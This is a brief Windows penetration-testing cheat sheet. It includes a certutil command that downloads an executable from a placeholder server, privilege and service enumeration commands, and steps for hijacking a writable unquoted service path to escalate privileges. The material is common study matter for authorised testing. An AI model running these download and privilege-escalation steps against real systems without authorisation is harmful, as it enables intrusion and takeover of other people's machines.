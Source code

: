 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```
# Exploiting Windows Services
Listing services for weak perms and unquoted service paths
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest
